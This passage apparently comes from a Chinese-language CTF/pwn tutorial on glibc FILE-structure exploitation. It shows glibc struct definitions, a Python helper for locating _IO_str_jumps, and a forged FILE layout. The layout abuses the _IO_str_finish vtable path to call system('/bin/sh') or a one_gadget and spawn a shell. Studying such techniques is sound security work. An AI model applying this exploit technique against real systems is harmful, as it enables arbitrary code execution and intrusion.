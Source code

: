 其中相关的`_IO_str_fields`结构体与`_IO_strfile_`结构体的定义：

```c
struct _IO_str_fields
{
  _IO_alloc_type _allocate_buffer;
  _IO_free_type _free_buffer;
};
 
typedef struct _IO_strfile_
{
  struct _IO_streambuf _sbf;
  struct _IO_str_fields _s;
} _IO_strfile;
```

可以看到，它使用了`IO`结构体中的值**当作函数地址来直接调用**；

如果满足条件，将直接将`fp->_s._free_buffer`当作**函数指针**来调用。

首先，仍然需要绕过之前的`_IO_flush_all_lokcp`函数中的输出缓冲区的检查`_mode<=0`以及`_IO_write_ptr>_IO_write_base`**进入到`_IO_OVERFLOW`中**。

我们可以**将`vtable`的地址覆盖成`_IO_str_jumps-8`**，这样会使得`_IO_str_finish`函数成为了伪造的`vtable`地址的`_IO_OVERFLOW`函数（因为`_IO_str_finish`偏移为`_IO_str_jumps`中`0x10`，而`_IO_OVERFLOW`为`0x18`）。这个`vtable`（地址为`_IO_str_jumps-8`）可以绕过检查，因为它在`vtable`的地址段中。
构造好`vtable`之后，需要做的就是构造`IO FILE`结构体其他字段，以进入将`fp->_s._free_buffer`当作函数指针的调用：先构造`fp->_IO_buf_base`为`'/bin/sh'`的地址，然后构造`fp->_flags`不包含`_IO_USER_BUF`，它的定义为`#define _IO_USER_BUF 1`，即`fp->_flags`最低位为`0`。
最后构造`fp->_s._free_buffer`为`system_addr`或`one gadget`即可`getshell`。

由于`libc`中没有`_IO_str_jump`的符号，因此可以通过`_IO_str_jumps`是`vtable`中的倒数第二个表，用`vtable`的最后地址减去`0x168`定位。
也可以用如下函数进行定位：

```python
# libc.address = libc_base
def get_IO_str_jumps():
    IO_file_jumps_addr = libc.sym['_IO_file_jumps']
    IO_str_underflow_addr = libc.sym['_IO_str_underflow']
    for ref in libc.search(p64(IO_str_underflow_addr-libc.address)):
        possible_IO_str_jumps_addr = ref - 0x20
        if possible_IO_str_jumps_addr > IO_file_jumps_addr:
            return possible_IO_str_jumps_addr
```

可以进行如下构造：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = bin_sh_addr,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps-8 //chunk_addr + 0xd8 ~ +0xe0
}
+0xe0 ~ +0xe8 : 0x0
+0xe8 ~ +0xf0 : system_addr / one_gadget //fp->_s._free_buffer
```
